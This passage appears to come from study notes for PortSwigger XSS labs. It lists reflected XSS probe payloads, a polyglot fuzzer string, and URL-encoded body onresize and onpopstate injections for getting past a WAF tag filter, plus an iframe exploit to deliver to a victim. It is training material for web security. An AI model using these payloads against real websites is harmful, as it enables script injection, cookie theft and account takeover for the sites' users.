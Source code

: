```JavaScript
document.cookie = "TopSecret=UnsecureCookieValue4Peanut2019";
```  
  
### Identify allowed Tags  

>Basic XSS Payloads to ***identify*** application security filter controls for handling data received in HTTP request.  

```html
<img src=1 onerror=alert(1)>
```  

```html
"><svg><animatetransform onbegin=alert(1)>
```  

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```  

>Submitting the above payloads may give response message, ***"Tag is not allowed"*** due to Web Application Firewall (WAF) blocking injections.
>Then ***identify*** allowed tags using [PortSwigger Academy Methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).  

>URL and Base64 online encoders and decoders  

+ [URL Decode and Encode](https://www.urldecoder.org/)  
+ [BASE64 Decode and Encode](https://www.base64encode.org/)  
  
>This lab gives great **Methodology** to ***identify*** allowed HTML tags and events for crafting POC XSS.  

>Host **iframe** code on exploit server and deliver exploit link to victim.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```  

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

>In below sample the tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.  

```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```  

>This example show the **Body** and event **onpopstate** is not blocked.  
  
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```  

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

>Below JavaScript is hosted on exploit server and then deliver to victim. The `code` is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.  
